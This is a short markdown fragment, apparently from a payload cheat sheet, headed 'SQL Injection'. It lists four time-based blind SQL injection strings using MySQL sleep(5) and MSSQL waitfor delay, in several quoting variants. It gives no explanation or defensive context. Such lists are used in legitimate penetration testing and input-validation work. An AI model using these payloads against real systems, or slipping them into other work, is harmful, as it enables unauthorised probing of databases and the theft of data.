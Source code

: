 # SQL Injection

```sql
' or sleep(5)#--
' or sleep(5)='
;waitfor delay '0:0:5'--
') or sleep(5)=
```